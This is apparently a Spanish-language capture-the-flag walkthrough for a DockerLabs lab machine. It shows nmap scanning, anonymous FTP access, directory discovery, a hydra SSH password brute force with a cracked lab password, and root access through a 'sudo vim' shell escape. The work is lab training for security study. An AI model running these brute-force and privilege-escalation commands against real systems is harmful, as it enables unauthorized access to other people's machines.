 ```yaml
---
{"dg-publish":true,"permalink":"/dockerlabs/muy-facil/obssesion/","dgPassFrontmatter":true}
---
```


![Pasted image 20250526082559.png](/img/user/Imagenes/Pasted%20image%2020250526082559.png)

empezamos dando un nmap para poder verificar los puertos abiertos:

![Pasted image 20250526082650.png](/img/user/Imagenes/Pasted%20image%2020250526082650.png)

Vemos que los puertos abiertos son:
- 21
- 22
- 80

observamos que el puerto 21 que es el por defecto del ftp tiene login anonymous:

![Pasted image 20250526082822.png](/img/user/Imagenes/Pasted%20image%2020250526082822.png)

Observaos que tenemos dos archivos:

chat-gonza.txt
pendientes.txt

- Lo mas interesante que podemos encontrar esta en pendientes.txt:

![Pasted image 20250526082950.png](/img/user/Imagenes/Pasted%20image%2020250526082950.png)

- **creo que tengo ciertos permisos habilitados que no son del todo seguros**

Podemos pensar en credenciales que tiene sueltas por ahi o cosas asi para loguearnos en el ssh.

Usamos dirsearch para poder buscar directorios;

![Pasted image 20250526083153.png](/img/user/Imagenes/Pasted%20image%2020250526083153.png)

Nos sale los siguientes directorios, lo mas relevante que encontramosw es backup:

![Pasted image 20250526083511.png](/img/user/Imagenes/Pasted%20image%2020250526083511.png)

Dentro de backup, existe un backup.txt y nos muestra un mensaje: **Usuario para todos mis servicio: russoski (cambiar pronto!)**

por lo tanto intuimos que es el usuario del ssh, entonces solo nos falta el password, asi que intentamos un hydra:

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250526083728.png](/img/user/Imagenes/Pasted%20image%2020250526083728.png)

lo que encontramos es lo siguiente:

```
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

entonces ingreseemos al ssh:

**russoski:iloveme**

![Pasted image 20250526083903.png](/img/user/Imagenes/Pasted%20image%2020250526083903.png)

Podemos continuar con un **sudo -l**

![Pasted image 20250526083943.png](/img/user/Imagenes/Pasted%20image%2020250526083943.png)

```
Matching Defaults entries for russoski on 0851434ed3f2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 0851434ed3f2:
    (root) NOPASSWD: /usr/bin/vim
```

eso significa **russoski** puede ejecutar ese programa como super usuario.

- Finalmente solo colocamos: **sudo vim -c ':!/bin/sh'**

![Pasted image 20250526084153.png](/img/user/Imagenes/Pasted%20image%2020250526084153.png)

Explicacion:

Eso se puede utilizar para salir de entornos restringidos mediante la creacion de un shell de sistema operativo.

Para mas informacion: https://gtfobins.github.io/gtfobins/vim/

thanks.


